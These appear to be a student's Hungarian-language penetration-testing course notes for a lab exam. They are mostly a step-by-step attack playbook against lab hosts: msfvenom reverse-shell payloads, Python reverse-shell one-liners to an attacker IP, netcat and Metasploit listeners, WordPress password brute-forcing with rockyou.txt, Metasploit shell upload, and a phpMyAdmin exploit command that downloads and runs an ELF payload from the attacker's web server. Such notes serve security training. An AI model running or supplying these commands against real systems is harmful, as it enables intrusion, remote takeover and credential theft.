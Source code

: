 /usr/share/wordlists/rockyou.txt  

msfvenom -l playloads

// listener
30.0.1.11
nc -lvnp 4444 ugyanazon a porton

// ip cím kiírása
ip a

// fájl csinálás msfvenom
msfvenom -p php/reverse_php LHOST=30.0.1.11 LPORT=4444 -f raw > shell.php

// chain shelling nem php és php esetén
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.11",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.11",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

// php esetén
nc -lvnp 4444 
msfvenom -p php/reverse_php LHOST=30.0.1.11 LPORT=4444 -f raw > shell.php // másik shellbe
chmod +x kriszshell.elf // másik shellbe
./kriszshell.elf listenerbe

// feltérképezés
sudo nmap -sS -sV 40.0.4.10

// egy weblap feltérképezése
dirbuster
/usr/share/wordlists/dirb/common.txt

//wordpress scan
wpscan 
-h
-o output file
-f format
--deteection-mode MODE mennyire erőszakosan próbálja felfedezni az oldalakat
aggresszív mód (jobban észrevesznek) passzív mód, alap beállítás kevert
--user-agent --rua random váltogatja a botokat
--http-auth login:password milyen login password kombóval tudja a wpscan átlépni az oldalt
--throttle milliseconds várakozás kattintás várakozás szimuláció
-e beállíthatjuk mire vagyunk kíváncsiak, 
  -vp vulnerable plugins
  -u user
  -at all themes
  -ap all plugins
-U username listája
  --login-rui URI ha zhn máshol található a login uri https://40.0.4.27 /secret
--stealthy


wpscan --url http://40.0.4.10 -e u,at,ap

wpscan --url http://40.0.4.10 --usernames admin --passwords /usr/share/wordlists/rockyou.txt 
ha < 5k akkor nem jelszót kell brute forceolni

comments.php-t kell szerkeszteni általában

msfconsole //metasploit exploitok msfvenom benne van
msfconsole search wordpress
search wordpress shell
a szám dinamkusan változik
wp admin shell upload
use exploit exploit/unix/webapp/wp_admin_shell_upload
[msf](Jobs:0 Agents:0) exploit(unix/webapp/wp_admin_shell_upload) >> options
nézni a yeseket module options
  rportot átírni ahol a website van
  targeturi
[msf](Jobs:0 Agents:0) exploit(unix/webapp/wp_admin_shell_upload) >> set password finalfantasy
password => finalfantasy
[msf](Jobs:0 Agents:0) exploit(unix/webapp/wp_admin_shell_upload) >> set rhosts 40.0.4.10
rhosts => 40.0.4.10
[msf](Jobs:0 Agents:0) exploit(unix/webapp/wp_admin_shell_upload) >> set username admin
username => admin
meterpreter> shell
python3 -c "import pty;pty.spawn('/bin/bash')"


msfvenom -p php/meterpreter/reverse_tcp LHOST=30.0.1.11 LPORT=4444 -f raw > metshell.php
msfconsole > use exploit/multi/handler // ez csak listener 
set payload php/meterpreter/reverse_tcp
run // olyan mint a netcates listener

**6.gyak
thecartpress 
exploit-db.com
zh-n verzióban feljebb lehet menni de lejebb nem
exploit-dbn vannak x-k, pipák azt jelentik h verifyolta a cég ha pipa van
xss típusú sérülékenység: 
authentikálni kell magam
weboldal "feltörése":
1. ping 40.0.5.10 (gép pingelése)
2. sudo nmap -sS -sV -p 50-3000 40.0.5.10 portokat megnézni
3. dirbuster , megnézzük a response-t (phpmyadmin)
4. view page source (verzió szám megnézése talán)
5. felhasználó / jelszó kombó (pma / pmapass) (lehet default jelszó használat googleon)
6. 
  0.milyen rendszert akarok támadni? Linux 64 bites (systeminfo -> win / uname -a -> linux) zhn minden gép linux 64 bites
  1.a meghatározott rendszertípusra msfvenom-al készítünk egy reverse shellt (ez a saját gépünkön készül) (msfvenom cheatsheet infinitelogins)
    1 fázisú payloadot (stageless) 
    (METERPRETER msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=30.0.1.11 LPORT=4444 -f elf > kriszshell.elf)
    (NON METERPRETER msfvenom -p linux/x64/shell_reverse_tcp LHOST=30.0.1.11 LPORT=4444 -f elf > kriszshell.elf)
    ez a downloads mappába lesz valószínűleg, majd csinálunk egy listenert
  2.Célpont keresek egy mappát amin van írási jogom (tmp mappa linuxon, windowson temp) 
    a, belépünk a /tmp mappába a célgépen
    b, kitöröljük az előző / már ott lévő shell(eket)
    c, letöltjük ide a mi gépünkről a shell-t (scp, base64,
      Fájlmásolás Támadóról Cépontra  
      a, támadón belépek abba a mappába ahol a shell/fájl van
      b, python3 -m http.server [PORT] (opcionális a port)
      d, futtathatóvá tesszük a shellt 
      ez a kód az előzőekből (2. pontból): 
      python3 50457.py 40.0.5.10 80 /phpmyadmin pma pmapass "cd /tmp;rm -rf kriszshell.elf;wget http://30.0.1.11:8000/kriszshell.elf;chmod 777     /tmp/kriszshell.elf;/tmp/kriszshell.elf"
      e, interaktívvá tesszük a listenert python3 -c "import pty;pty.spawn('/bin/bash')"
      (ha ctrl+c zel akkor a listenert leállítjuk és a python3-as 50457.py kódot újra futtatjuk)
      f, futtatás 



    
